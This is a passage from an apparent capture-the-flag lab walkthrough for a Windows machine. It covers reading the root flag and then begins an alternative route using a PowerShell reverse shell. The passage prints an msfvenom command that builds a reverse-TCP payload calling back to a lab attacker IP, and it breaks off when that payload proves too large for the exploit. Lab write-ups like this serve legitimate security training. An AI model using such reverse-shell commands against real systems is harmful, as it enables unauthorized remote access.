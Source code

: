 View the permissions again to confirm that the change was made.

![](../images/max/649/1*YJVoWD189gUyAnYoOtuTjQ.png)

Perfect! We should now be able to view the _root.txt_ flag.

![](../images/max/567/1*5AV9M9Ls6XTQ2SO-gkwbAQ.png)

Alright, all we did is view the root flag, we didn’t really escalate privileges. Unfortunately our shell can’t handle running PowerShell, so in the next section, we’ll start from the beginning and send a PowerShell reverse shell back to our target machine and from there we’ll escalate our privileges to _Administrator_.

## Extra Content: The PowerShell Solution <a id="e858"></a>

View the options for PowerShell reverse shells in msfvenom.

![](../images/max/1385/1*HLwepNg6SyWiuGIPICQGVA.png)

We’ll go with the _powershell\_reverse\_tcp_ option.

```text
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=10.10.14.7 LPORT=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Unfortunately, this gives us a payload that is larger than the maximum size specified in the exploit.

![](../images/max/1421/1*R2cIHjSY_Wf1ANRH_2L_UQ.png)
